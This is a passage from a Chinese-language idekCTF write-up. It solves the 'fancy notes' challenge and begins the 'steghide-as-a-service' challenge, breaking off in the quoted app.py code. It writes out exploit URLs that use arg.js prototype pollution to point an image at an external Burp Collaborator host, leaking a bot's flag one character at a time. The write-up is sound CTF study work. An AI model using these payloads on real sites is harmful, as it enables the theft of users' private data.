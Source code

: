 交互过程总体是这样的：可以输入并保存note，之后选择我们的note将其fancify之后渲染出来

```
http://fancy-notes.chal.idek.team/fancy?q=Note+1&style=2
```

其中除了q以外的参数长度不超过1，如果没有指定image并且note存在就会出现success.png的图片，指定了的话就是对应图片

另外还有一个经典report的bot，它以admin身份登入后写入一条含有flag的note，之后访问我们的url

我一开始在python的SSTI部分浪费了一部分时间，想着明明没有过滤为什么不能执行命令，后来才知道考点就不在这里

这个题其实跟[uiuCTF2021]YANA很像，也是纯client-side安全问题和char-by-char思想的运用，而更方便的是这里连回显方式都十分明确：含有指定内容的note存在则渲染success.png 不存在则不渲染，并且这个图片我们可以指定，那将其设为我们自己服务器上的图片，并char-by-char的盲注查询字符就可以得到flag的内容了，就像这样

```
http://fancy-notes.chal.idek.team/fancy?q=idekctf{&image=http://5agyjdbu3db0w6e7n60w52wbq2wskh.burpcollaborator.net/
```

不过并没有这么轻松，app.py中限制了除q参数以外的参数字符不超过1，如何绕过呢？

肥肠的鸡贼，在fancy.html中引入了一个外部的js脚本

```html
<script src="https://raw.githack.com/stretchr/arg.js/master/dist/arg-1.4.js"></script>
```

而这个arg.js是存在js原型污染的洞并且有现成的POC->https://github.com/BlackFan/client-side-prototype-pollution/blob/master/pp/arg-js.md

这不就好说了？

```
http://fancy-notes.chal.idek.team/fancy?q=idekctf{&__proto__[image]=x&__proto__[image]=http://5agyjdbu3db0w6e7n60w52wbq2wskh.burpcollaborator.net/
```

之后只需要对q参数的后面char-by-char地盲注即可

参考：[wp](https://fireshellsecurity.team/idekctf-writeups/#fancy-notes)

## steghide-as-a-service

> As has long been demonstrated by CTF, only the most 1337 are capable of running steghide. To help bridge this immense skill gap, I created a web based tool for easy embedding of hidden messages.
>
> http://steghide-as-a-service.chal.idek.team/  |  https://ctf.idek.team/handouts/web/SteghideAsAService/saas-dist.zip

跟php的不一样（一般要绕waf拿一个webshell），flask的文件上传考点一般在其他地方，比如一些tricks&SSTI&Cookie伪造这种的，这个题也不例外，是一个LFI

先审一下代码

```python
# app.py
from flask import Flask, request, render_template, make_response, redirect, send_file
import imghdr
from imghdr import tests
import hashlib
from util import *

# https://stackoverflow.com/questions/36870661/imghdr-python-cant-detec-type-of-some-images-image-extension
# there are no bugs here. just patching imghdr
JPEG_MARK = b'\xff\xd8\xff\xdb\x00C\x00\x08\x06\x06' \
            b'\x07\x06\x05\x08\x07\x07\x07\t\t\x08\n\x0c\x14\r\x0c\x0b\x0b\x0c\x19\x12\x13\x0f'

def test_jpeg1(h, f):
    """JPEG data in JFIF format"""
    if b'JFIF' in h[:23]:
        return 'jpeg'

```